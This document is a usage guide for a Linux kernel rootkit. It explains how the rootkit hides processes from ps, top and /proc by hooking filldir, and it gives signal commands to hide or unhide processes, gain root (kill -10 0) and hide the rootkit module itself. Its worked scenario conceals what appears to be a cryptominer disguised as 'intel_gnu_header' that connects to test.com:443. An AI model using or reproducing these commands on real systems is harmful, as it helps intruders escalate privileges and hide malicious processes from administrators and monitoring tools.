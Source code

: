 # Process Hiding Usage Guide

This rootkit now supports hiding processes **by name** from system tools like `ps`, `top`, `htop`, and `/proc` directory listings.

## How Process Hiding Works

The rootkit hooks the `filldir` and `filldir64` functions to intercept directory listings in `/proc`. When a process name matches any entry in the hidden process list, its directory entry in `/proc` is filtered out, making the process invisible to most userspace tools.

The system checks both:
1. **Process name** (comm) - the executable name
2. **Command line** - the full command with arguments

## Usage Commands

### Hide Current Process
```bash
# Hide the current process by its name
kill -34 0
```

### Hide Any Process by PID
```bash
# Hide process with PID 656 (e.g., qemu-ga)
kill -34 656

# This will hide ALL processes with the same name as PID 656
```

### Unhide Current Process
```bash
# Unhide the current process by its name
kill -35 0
```

### Unhide Any Process by PID
```bash
# Unhide process with PID 656 (e.g., qemu-ga)
kill -35 656

# This will unhide ALL processes with the same name as PID 656
```

### Other Existing Commands
```bash
# Get root privileges
kill -10 0

# Hide/show the rootkit module
kill -12 0
```

## Example: Hiding qemu-ga Process

To hide the qemu-ga process like:
```
root 656 0.0 0.1 80712 4224 ? Ssl 22:44 0:00 /usr/sbin/qemu-ga
```

**Hide by PID:**
```bash
# Hide by PID (this hides ALL qemu-ga processes)
kill -34 656

# Verify it's hidden
ps aux | grep qemu-ga    # Should show no results
ls /proc/656             # Should show "No such file or directory"
```

**To unhide:**
```bash
kill -35 656
```

## Configuration

- **Maximum Hidden Process Names**: 10 (configurable via `HIDE_PROCESS_LIST_SIZE` in config.h)
- **Maximum Process Name Length**: 256 characters (configurable via `MAX_PROCESS_NAME_LEN`)
- **Signal Numbers**: 
  - SIGRTMIN (34): Hide current process by name
  - SIGRTMIN1 (35): Unhide current process by name

## Example Usage Scenario

1. Start a suspicious process:
   ```bash
   /usr/bin/intel_gnu_header -o test.com:443 -u 44fdsasdf -k --tls -p prolay &
   echo $!  # Note the PID, e.g., 1234
   ```

2. Hide the process manually:
   ```bash
   # Hide by PID (this hides ALL intel_gnu_header processes)
   kill -34 1234
   ```

3. Verify it's hidden:
   ```bash
   ps aux | grep intel_gnu_header    # Should not show the process
   ps aux | grep test.com            # Should not show the process
   ls /proc/1234                     # Should show "No such file or directory"
   ```

4. To hide other processes:
   ```bash
   # From within the process you want to hide:
   kill -34 0
   
   # Or hide by PID:
   kill -34 <PID>
   ```

5. To unhide a process:
   ```bash
   # From within the hidden process:
   kill -35 0
   
   # Or unhide by PID:
   kill -35 <PID>
   ```

## Technical Details

- The rootkit maintains an internal list of hidden process names
- Process hiding works by filtering `/proc` directory entries based on process names
- Hidden processes are still running and functional, just invisible to most tools
- The system uses **substring matching** - if any hidden name is found in the process name or command line, it's hidden
- The hiding affects: `ps`, `top`, `htop`, `/proc` listings, and other tools that read from `/proc`

## Advanced Usage

You can hide processes with specific patterns:
- Hide by executable name: `intel_gnu_header`
- Hide by partial command: `test.com:443`
- Hide by argument: `44fdsasdf`

## Limitations

- Maximum of 10 process names can be hidden simultaneously
- Process names are limited to 256 characters
- Some advanced forensic tools might still detect hidden processes
- Process hiding only affects `/proc` directory listings, not kernel-level process tracking
- Signal-based hiding only works for the current process (kill -34 0)
